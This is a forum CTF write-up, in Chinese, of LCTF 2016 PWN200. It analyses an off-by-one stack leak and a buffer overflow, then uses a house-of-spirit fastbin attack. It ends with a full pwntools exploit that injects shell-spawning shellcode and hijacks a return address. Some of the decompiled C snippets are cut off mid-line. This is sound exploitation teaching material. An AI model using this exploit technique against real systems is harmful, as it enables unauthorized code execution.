# [CTF] LCTF 2016 PWN200

- 原帖：[https://www.52pojie.cn/forum.php?mod=viewthread&tid=1819636](https://www.52pojie.cn/forum.php?mod=viewthread&tid=1819636)
- 抓取时间：2026-11-01T22:48:24

## 前言

本体知识点讲解：[https://bbs.kanxue.com/thread-277530.htm](https://bbs.kanxue.com/thread-277530.htm)

## 检查文件信息



屏幕截图 2023-08-10 103145.png (116.79 KB, 下载次数: 1)

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzNDUwNXw4NTM3YWE1ZnwxNzkzNTczMzAyfDE2ODA4NnwxODE5NjM2&nothumb=yes)

1

2023-8-10 11:15 上传



屏幕截图 2023-08-10 103922.png (88.47 KB, 下载次数: 1)

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzNDUwNnwwMzUxNGU5ZnwxNzkzNTczMzAyfDE2ODA4NnwxODE5NjM2&nothumb=yes)

2

2023-8-10 11:15 上传

ELF64动态链接程序，经过`strip`，除了Partial RELRO保护以外一个没开，无NX包保护可以考虑shellcode，无FULL RELRO可考虑改got。这里用house of spirit



屏幕截图 2023-08-10 104106.png (63.36 KB, 下载次数: 0)

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzNDUwN3w0MjIwMTQ4MHwxNzkzNTczMzAyfDE2ODA4NnwxODE5NjM2&nothumb=yes)

3

2023-8-10 11:15 上传



屏幕截图 2023-08-10 104137.png (115.42 KB, 下载次数: 1)

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzNDUwOHw3MDMxZTU2ZHwxNzkzNTczMzAyfDE2ODA4NnwxODE5NjM2&nothumb=yes)

4

2023-8-10 11:15 上传

`r2`分析出其为ubuntu14.04编译，应该是ubuntu2.19，可以去`libc-datase`下载对应版本`libc`，我这里就用`glibc2.23`了

## 试运行



屏幕截图 2023-08-10 104230.png (57.02 KB, 下载次数: 1)

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzNDUwOXwwNzg2OGM1NnwxNzkzNTczMzAyfDE2ODA4NnwxODE5NjM2&nothumb=yes)

5

2023-8-10 11:15 上传

一个登陆程序。

## 逆向分析

```c
/*Entry()函数*/
__int64 Entry()
{
  __int64 i; // [rsp+10h] [rbp-40h]
  char name[48]; // [rsp+20h] [rbp-30h] BYREF

  puts("who are u?");
  for ( i = 0LL; i 
```

这里存在`off-by-one`漏洞读取`name`的时候，如果填满`0x30`个将不会有`'\x00'`截断，并且`name`变量仅挨着`rbp`，可以用来泄露`rbp`。

```c
/*get_num()函数*/
int get_num()
{
  char nptr[8]; // [rsp+0h] [rbp-10h] BYREF
  int v2; // [rsp+8h] [rbp-8h]
  int i; // [rsp+Ch] [rbp-4h]

  v2 = 0;
  for ( i = 0; i  '9' || nptr[i] = 0 )
    return atoi(nptr);
  else
    return 0;
}
```

`Entry()`函数调用`get_num()`之后的汇编代码如下：

```asm
;Entry()函数调用get_num()之后的汇编代码
mov     eax, 0
call    get_num
cdqe
mov     [rbp+var_38], rax ;rax一般是用来保存函数返回值的寄存器
mov     eax, 0
```

查看`Entry()`函数尾部的汇编代码，看到`get_num()`函数的返回值保存在`rbp-0x38`的位置，紧挨着`name`变量。

```c
/*get_money()函数*/
__int64 get_money()
{
  char buf[56]; // [rsp+0h] [rbp-40h] BYREF
  char *dest; // [rsp+38h] [rbp-8h]

  dest = (char *)malloc(0x40uLL);
  puts("give me money~");
  read(0, buf, 0x40uLL);
  strcpy(dest, buf);
  ptr = dest;
  Begin();
}
```

可以看到`buf`存在溢出，`buf`有`0x38`字节大小，却读入了`0x40`字节大小的数据，覆盖了`dest`指针。

```c
/*Begin()函数*/
void Begin(void)
{
  int num; // eax

  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      num = get_num();
      if ( num != 2 )
        break;
      check_out();
    }
    if ( num == 3 )
      break;
    if ( num == 1 )
      check_in();
    else
      puts("invalid choice");
  }
  puts("good bye~");
}
```

```c
/*check_in()函数*/
int check_in()
{
  int nbytes; // [rsp+Ch] [rbp-4h]

  if ( ptr )
    return puts("already check in");
  puts("how long?");
  nbytes = get_num();
  if ( nbytes  0x80 )
    return puts("invalid length");
  ptr = malloc(nbytes);
  printf("give me more money : ");
  printf("\n%d\n", (unsigned int)nbytes);
  read(0, ptr, (unsigned int)nbytes);
  return puts("in~");
}
```

```c
/*check_out()函数*/
void sub_40096D()
{
  if ( ptr )
  {
    puts("out~");
    free(ptr);
    ptr = 0LL;
  }
  else
  {
    puts("havn't check in");
  }
}
```

### 漏洞利用

利用`house of spirit`修改`get_money()`的返回地址为`shellcode`地址。

### 在栈上注入`shellcode`并泄露`get_money_rbp`地址

```python
def leek_rbp():
    global fake_addr
    global shellcode_addr
    shellcode = asm(shellcraft.sh())
    payload = shellcode.ljust(0x30, b'\x90')
    p.recvuntil(b'who are u?\n')
    p.send(payload)
    p.recvuntil(payload)
    rbp_addr = u64(p.recv(6).ljust(8, b'\x00'))
    log.info("rbp_addr: 0x%x" % rbp_addr)
    # 1
    gdb.attach(p)
    pause()
    shellcode_addr = rbp_addr - 0x50
    log.info("shellcode_addr: 0x%x" % shellcode_addr)
    fake_addr = rbp_addr - 0x90
```



图片.png (307.69 KB, 下载次数: 0)

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzNDUzNnxhNjlmNGJiMXwxNzkzNTczMzAyfDE2ODA4NnwxODE5NjM2&nothumb=yes)

6

2023-8-10 15:09 上传

栈空间由高向低增长，调用者的栈比被调用者的栈高，每次函数调用结束都会进行`leave_ret`，也就是`(mov rbp, rsp; pop rbp; pop rip)`，递归调用函数会让`rbp`成为一个栈式链，由此可以推断每个函数的`rbp`是什麼。`call`指令每次调用会把下一条指令的地址压栈，然后才是调用函数，开始`push rbp`。`rbp`高一个`size`位就是`ret`执行的地方。

比如，标记的这个`rbp`地址(`0x7ffd062acd40`)是`get_money()`函数的`rbp`，这个`rbp`里保存的地址(泄露的)是`Entry()`函数的`rbp`(`0x7ffd062acd60`)，`shellcode`距离泄露的`Entry_rbp`有`0x50`距离，标记`ret`就是其返回地址，也就是`ret`指令执行处，回到调用者执行流。

`fake_addr`之所以要`-0x90`，是因为在`get_money`的栈帧里，`rbp-0x38`的空间都是`buf`数组的，剩下`0x8`属于`dest`，这`0x40`空间都是可控的，方便接下来我们也可以由此控制`rbp`高`0x8`字节处的`retaddr`。

### 利用`buf`溢出使`dest`指向`fake_addr`

```python
def overwrite_dest():
    p.recvuntil(b'give me your id ~~?\n')
    p.sendline(b'65') # 65即0x41，将shellcode的低地址改为0x41(size位)
    p.recvuntil(b'give me money~\n')
    data = p64(0) * 4 + p64(0) + p64(0x41) + p64(0) + p64(fake_addr) # \x00截断strcpy，防止改写dest
    p.send(data)
    # 2
    gdb.attach(p)
    pause()
```



图片.png (315.54 KB, 下载次数: 1)

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzNDU0M3xkZWExYmRjOHwxNzkzNTczMzAyfDE2ODA4NnwxODE5NjM2&nothumb=yes)

7

2023-8-10 15:44 上传

1. `get_money`的`rbp`
2. `get_money`的`retaddr`
3. `shellcode`

我们知道，堆空间由低地址向高地址增长，栈由高向低增长，所以在低地址`0x8`处(`rbp-0x38`)的`0x41`就是`shellcode`的`size`位了。当我们`free(dest)`时，就是`free(fake_addr)`，`0x41`大小的`fake_chunk`会被放入`fastbin`，`get_money`的`retaddr`距离我们的用户区域有`0x18`字节大小，接下来只需要把`get_money`的`retaddr`改为`shellcode`地址退出即可。

### 控制`retaddr`并修改`get_money`的`retaddr`为`shellcode`地址

```python
def get_shell():
    p.recvuntil(b'choice : ')
    p.sendline(b'2')
    # 3
    gdb.attach(p)
    pause()
    p.recvuntil(b'choice : ')
    p.sendline(b'1')
    p.recvuntil(b'long?\n')
    p.sendline(b'48')
    p.recvline(b'48')
    data = b'\x90'*0x18 + p64(shellcode_addr)
    data = data.ljust(0x30, b'\x90')
    p.send(data)
    # 4
    gdb.attach(p)
    pause()
    p.recvuntil(b'choice')
    p.sendline(b'3')
    p.interactive()
```



图片.png (81.89 KB, 下载次数: 2)

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzNDU0NXwwODVlZmQxZHwxNzkzNTczMzAyfDE2ODA4NnwxODE5NjM2&nothumb=yes)

9

2023-8-10 16:04 上传



图片.png (49.19 KB, 下载次数: 0)


[href="forum.php?mod=attachment&aid=MjYzNDU0NHw1ZWQxM2I5ZnwxNzkzNTczMzAyfDE2ODA4NnwxODE5NjM2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzNDU0NHw1ZWQxM2I5ZnwxNzkzNTczMzAyfDE2ODA4NnwxODE5NjM2&nothumb=yes)

8 2023-8-10 16:03 上传

当我们`free(dest)`后，可以看到fastbin里有了栈地址`(rbp-0x100)`。申请`0x30`大小就可以将其申请出来，其用户区偏移`0x18`处就是`get_money_retaddr`。



图片.png (256.09 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=MjYzNDU0NnwwYTkwZmU0N3wxNzkzNTczMzAyfDE2ODA4NnwxODE5NjM2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzNDU0NnwwYTkwZmU0N3wxNzkzNTczMzAyfDE2ODA4NnwxODE5NjM2&nothumb=yes)

10 2023-8-10 16:06 上传

可以看到已经成功将`get_money_retaddr`修改为了`shellcode`地址。



图片.png (191.03 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=MjYzNDU0OHw0ZDE0YjQ3OXwxNzkzNTczMzAyfDE2ODA4NnwxODE5NjM2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzNDU0OHw0ZDE0YjQ3OXwxNzkzNTczMzAyfDE2ODA4NnwxODE5NjM2&nothumb=yes)

11 2023-8-10 16:07 上传

## 3> 完整exp

```
from pwn import *
context.terminal=['tmux', 'splitw', '-h']
context.arch='amd64'

elf = ELF('./pwn200')

p = process('./pwn200')
#p = remote('node4.buuoj.cn',25633)

def leek_rbp():
    global fake_addr
    global shellcode_addr

    shellcode = asm(shellcraft.sh())
    payload = shellcode.ljust(0x30, b'\x90')

    p.recvuntil(b'who are u?\n')
    p.send(payload)
    p.recvuntil(payload)
    rbp_addr = u64(p.recv(6).ljust(8, b'\x00'))
    log.info("rbp_addr: 0x%x" % rbp_addr)
    # 1
    #gdb.attach(p)
    #pause()
    shellcode_addr = rbp_addr - 0x50
    log.info("shellcode_addr: 0x%x" % shellcode_addr)
    fake_addr = rbp_addr - 0x90

def overwrite_dest():
    p.recvuntil(b'give me your id ~~?\n')
    p.sendline(b'65')
    p.recvuntil(b'give me money~\n')
    data = p64(0) * 4 + p64(0) + p64(0x41) + p64(0) + p64(fake_addr)
    p.send(data)
    # 2
    #gdb.attach(p)
    #pause()

def get_shell():
    p.recvuntil(b'choice : ')
    p.sendline(b'2')
    # 3
    gdb.attach(p)
    pause()

    p.recvuntil(b'choice : ')
    p.sendline(b'1')

    p.recvuntil(b'long?\n')
    p.sendline(b'48')
    p.recvline(b'48')

    data = b'\x90'*0x18 + p64(shellcode_addr)
    data = data.ljust(0x30, b'\x90')

    p.send(data)
    # 4
    gdb.attach(p)
    pause()

    p.recvuntil(b'choice')
    p.sendline(b'3')

    p.interactive()

def pwn():
    leek_rbp()
    overwrite_dest()
    get_shell()

if __name__ == '__main__':
    pwn()

```
